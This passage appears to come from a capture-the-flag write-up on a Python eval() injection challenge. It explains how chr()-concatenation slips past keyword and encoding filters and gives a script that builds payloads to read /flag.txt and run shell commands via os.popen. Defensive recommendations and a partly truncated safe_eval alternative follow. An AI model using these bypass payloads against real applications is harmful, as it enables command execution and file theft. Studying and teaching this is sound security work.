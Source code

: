 1. **chr() Function**: Not blocked by the filters as it's a basic Python built-in
2. **String Concatenation**: The `+` operator for string concatenation isn't filtered
3. **Dynamic Construction**: The string `/flag.txt` is never literally present in our input
4. **Bypasses Regex**: No hexadecimal, unicode, or URL encoding is used
5. **Avoids Keywords**: We don't directly type blocked keywords

## Python Code for Payload Generation

```python
def generate_chr_payload(text):
    """Generate chr() payload for any string"""
    chars = []
    for c in text:
        chars.append(f"chr({ord(c)})")
    return "+".join(chars)

# Generate payload for '/flag.txt'
flag_path = generate_chr_payload('/flag.txt')
print(f"open({flag_path}).read()")

# Generate payload for 'os'
os_module = generate_chr_payload('os')
cat_command = generate_chr_payload('cat /flag.txt')
print(f"__import__({os_module}).popen({cat_command}).read()")
```

## Defensive Recommendations

To properly secure this application:

1. **Never use eval() with user input** - This is the golden rule
2. **Use ast.literal_eval()** - For safe evaluation of mathematical expressions
3. **Implement a proper math parser** - Libraries like `numexpr` or custom parsers
4. **Whitelist approach** - Only allow specific characters/operations
5. **Sandboxing** - If eval is absolutely necessary, use restricted execution environments

### Secure Alternative Implementation

```python
import ast
import operator

# Safe mathematical expression evaluator
def safe_eval(expr):
    """Safely evaluate mathematical expressions"""
    allowed_operators = {
        ast.Add: operator.add,
        ast.Sub: operator.sub,
        ast.Mult: operator.mul,
        ast.Div: operator.truediv,
        ast.Pow: operator.pow
    }
    
    def eval_node(node):
        if isinstance(node, ast.Num):
            return node.n
        elif isinstance(node, ast.BinOp):
            left = eval_node(node.left)
            right = eval_node(node.right)
            return allowed_operators[type(node.op)](left, right)
        else:
            raise ValueError(f"Unsupported operation: {node}")
    
    tree = ast.parse(expr, mode='eval')
```
